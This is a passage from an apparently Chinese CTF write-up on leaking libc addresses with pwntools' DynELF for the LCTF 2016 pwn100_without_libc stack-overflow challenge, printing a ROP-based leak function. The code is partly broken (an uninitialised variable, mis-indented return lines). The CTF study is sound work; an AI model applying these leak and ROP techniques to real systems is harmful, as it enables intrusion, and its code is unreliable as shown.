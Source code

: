 最后得注意发送的是 base64 编码之后的 payload。

参考资料:

[https://bbs.ichunqiu.com/forum.php?mod=collection&action=view&ctid=157](https://bbs.ichunqiu.com/forum.php?mod=collection&action=view&ctid=157)  

用 DynELF 获取 libc0x05
====================

▲题外话：其实久了之后，我还是比较喜欢用 LibcSearcher，更好用，但是如果找不到的对应版本的话，可以试试这个。

一、LCTF 2016-pwn100_without_libc  

----------------------------------

1. 与之前做的 pwn100 一模一样，只是之前有给 Libc，这次没给 Libc。栈溢出，选择用 Puts 函数来泄露地址从而再执行栈溢出来重复使用。

2. 编写 leak 函数，由于用 Puts 函数打印，所以需要有个循环条件，具体原因可以查看之前写的。

```
#注释头
 
def leak(addr):
    count = 0
    up = ''
    content = ''
    payload = 'A'*72 #padding
    payload += p64(pop_rdi)           #给puts()赋值
    payload += p64(addr)              #leak函数的参数addr
    payload += p64(puts_addr)         #调用puts()函数
    payload += p64(start_addr)        #跳转到start，恢复栈
    payload = payload.ljust(200, 'B') #padding
    io.send(payload)
    io.recvuntil("bye~\n")
    while True:                             #无限循环读取，防止recv()读取输出不全
        c = io.recv(numb=1, timeout=0.1)    #每次读取一个字节，设置超时时间确保没有遗漏
        count += 1
        if up == '\n' and c == "":          #上一个字符是回车且读不到其他字符，说明读完了
            data = data[:-1]+'\x00'         #最后一个字符置为\x00
            break
        else:
            data += c         #拼接输出
            up = c            #保存最后一个字符
    data = data[:4]           #截取输出的一段作为返回值，提供给DynELF处理
log.info("%#x => %s" % (addr, (data or '').encode('hex')))
return data

```

3. 得到 system_addr 的地址后，后续的操作用万能 gadget 和 read 函数即可实现。如果还需要其它地址，也可以通过此方法来打印，也是一样的。

(参照之前不给 Libc 的 pwn100)

参考资料：

[https://bbs.ichunqiu.com/forum.php?mod=collection&action=view&ctid=157](https://bbs.ichunqiu.com/forum.php?mod=collection&action=view&ctid=157)

